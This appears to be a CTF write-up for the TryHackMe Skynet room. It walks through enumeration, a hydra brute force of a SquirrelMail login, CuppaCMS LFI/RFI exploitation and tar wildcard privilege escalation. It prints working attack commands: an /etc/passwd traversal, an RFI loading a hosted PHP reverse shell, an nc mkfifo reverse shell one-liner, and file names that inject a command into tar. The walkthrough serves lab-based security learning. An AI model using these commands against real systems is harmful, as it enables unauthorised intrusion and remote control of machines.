


THM: Skynet
Sigh…Hasta La Vista
Table of Contents
Yesterday I lost the opportunity to use “I’ll be back” on my post’s
title. Unfortunate but I had not seen Skynet in the list of my TODO
rooms.
Reconnaissance
Start by updating /etc/hosts and .bashrc, to save yourself some time.
echo "10.10.201.239 skynet.thm" >> /etc/hosts echo "IP=skynet.thm" >> ~/.bashrc
Port Scanning
The usual CTF-oriented nmap quick scan revealed quite a lot of open ports in the target machine:
[ ]22: SSH[ ]80: HTTP webserver[ ]110: pop3: Dovecot pop3d- POP3 mail server
[ ]139: Samba (3.X-4.X)[ ]143: imap: Dovecot imapd[ ]445: Samba 4.3.11
I started the full scan, just to be thorough enough, but we had enough data to get going
nmap -sV -sC -oN nmap.initial $IP nmap -p- -oN nmap.full -T4 $IP
Website
The webserver strangely looks like a search engine, and it does not produce any results to the random strings I tried.

Figure 1: Homepage
Directory Enumeration with gobuster
Seeing that I was unable to get any promising information manually, I did not lose any more time, before launching gobuster:
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP -o gobuster.big
That, in turn, gave us some directories to check:
/.htaccess (Status: 403) /.htpasswd (Status: 403) /admin (Status: 301) /ai (Status: 301) /config (Status: 301) /css (Status: 301) /js (Status: 301) /server-status (Status: 403) /squirrelmail (Status: 301)
While most of these show up as forbidden, squirrelmail is promising:

Figure 2: SquirrelMail Login page
Sadly searchsploit did not reveal any usable exploits for that version (had it been for 1.4.22, we would have a perfectly fine RCE…shame)
Samba enumeration
Just from what we have already seen, we do not have any credentials or information about the users of this machine. Putting web analysis and enumeration on hold for Samba might be the right move to make:

Figure 3: Nmap samba info
I’m thinking of using smbclient and if that does not get us anywhere
enum4linux to get some more information about the shares available
Smbclient does a pretty decent job:
smbclient -L $IP -U guest

Figure 4: Shares on target samba
Now it would be interesting to connect to any of those shares (except for print actually):
[ ]anonymous might be the only one not password protected[ ]milesdyson might gives us some more information about the user[ ]IPC might have some interesting files for us (perhaps a path to gain initial foothold or privilege escalation later on)
- Anonymous
smbclient //$IP/anonymous -U guestNot much here:
- An
attention.txtfile, simply pointing at a recent system malfunction. - A log subdirectory containing:
log1.txt: Looks like a wordlist - maybe checking it with hydra against the login prompt (or the samba share / ssh server maybe) withmilesdyson(?)log{2,3}.txt: empty files
- An
- Milesdyson
smbclient //$IP/milesdyson -U guestAccess denied - can’t login here as
milesdyson.
Testing the wordlist
- The given wordlist proved useless for ssh login
- Testing the wordlist on the mail entrypoint was a good choice : we got miles password
hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php: login_username=^USER^&secretkey=^PASS^&js_autodetect_results=1&just_logged_in=1:incorrect"
Checking the mail
Using the newly found password, we can try to see if there is any useful information in the user’s email account:
Password rEsEt

Figure 5: Lo and Behold
Yeah don’t know about that
In another mail, we get this binary sequence, which given its structure suggests the usage of a binary to ASCII converter: The final text makes absolutely no sense:
balls have zero to me to me to me to me to me to me to me to me to

After viewing the last email, the “hexdump” from above seems to be a line from a song (?) - Nah. Searching for it online it interestingly points to an incident in Facebook Artificial Intelligence lab: see here
Going back to the samba shares
smbclient //$IP/milesdyson -U milesdyson
In this share there are some machine/deep learning related pdfs, a
wide set of markdown notes on these topics (might be worth checking
out :P), and a file titled important.txt. Sigh I mEaN wHeRe sHoUlD I
gO nOw?

Figure 6: Important.txt
Checking the CMS
There seems to be a personal webpage at the new link we found out about. Again, enumeration is due:
/administratorgets found by gobuster
gobuster dir -w /usr/share/wordlists/SecLists/Discovery/Web-Content/big.txt -u http://$IP/45kra24zxs28v3yd -o gobuster.big
Visiting /administrator we get to a login page of CuppaCMS:

Figure 7: Login page of Cuppa
My first thought was to check the password we had found for the email, however, my lazy me thought: Too manual, check for exploits first. Apparently there is a readily available exploit in exploit-db: 25971.
Exploitation
CuppaCMS
Using the following payload, as described in the exploit we found, we see that there is:
- LFI potential (we could maybe get a flag through that (?))
- RFI potential (PHP injection) (a reverse shell might be nice as well)
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=../../../../../../../../../etc/passwd
Generating a php reverse shell and hosting it
I always like using this as my go-to php shell so there was not much to do:
wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php vim php-reverse-shell.php python3 -m http.server nc -lvnp 6969 # do not forget the listener
Then, manipulating the urlConfig parameter once again we forge a
request:
http://skynet.thm/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.10.95.44:8000/php-reverse-shell.php
This successfully gives us an entrypoint!
Privilege Escalation - Lateral Movement
Before doing anything else, make the shell more usable:
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data
We can move to miles home directory and get the user flag, but there are some more interesting files there as well:
- share: the samba share that we have already checked
- backups.sh: i’m thinking that this will be the way to get access as another user: a crontab must be running and while the file itself is not readily exploitable by us (not writeable), we can manipulate its options
Getting Root: Tar wildcards
I have seen this exploit before so I know that by creating the right set of files, this line can result to either the creation of a SUID shell file for us, or to another reverse shell. For the shake of simplicity, I will go the second route.1
tar cf /home/milesdyson/backups/backup.tgz *
Initially I had opted for a different route but, for some reason I could not create the checkpoint action file. Creating a payload file with the command, I changed my approach to the following:
echo ''> '--checkpoint=1' echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.10.95.44 6970 >/tmp/f' > shell.sh echo "" > "--checkpoint-action=exec=bash shell.sh"
Footnotes:
In fact: source: https://www.sevenlayers.com/index.php/353-exploiting-tar-wildcards